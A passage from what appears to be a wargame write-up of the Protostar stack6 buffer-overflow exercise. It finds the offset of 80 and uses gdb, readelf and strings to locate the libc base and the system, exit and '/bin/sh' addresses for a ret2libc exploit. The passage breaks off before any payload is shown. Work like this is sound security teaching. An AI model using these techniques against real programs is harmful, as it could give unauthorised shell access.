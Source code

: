 ```python
>>> cyclic_find(0x61616175)
80
```

<br/>

Now I have to find the libc, system, exit, and binsh address
Finding the libc address:
```bash
(gdb) info proc map
process 1945
cmdline = '/opt/protostar/bin/stack6'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
        0xb7e96000 0xb7e97000     0x1000          0        
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0        
        0xb7fde000 0xb7fe2000     0x4000          0        
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
```
libc: 0xb7e97000 

<br/>

Finding the system address:
```bash
$ readelf -s /lib/libc-2.11.2.so | grep system
  1399: 00038fb0   125 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
```
system: 0x00038fb0

<br/>

Finding the exit address:
```bash
$ readelf -s /lib/libc-2.11.2.so | grep exit
  136: 0002f0c0    47 FUNC    GLOBAL DEFAULT   12 exit@@GLIBC_2.0
```
exit: 0x0002f0c0

<br/>

Finding the /bin/sh address:
```bash
$ strings -tx /lib/libc-2.11.2.so | grep "/bin/sh"
  11f3bf /bin/sh
```
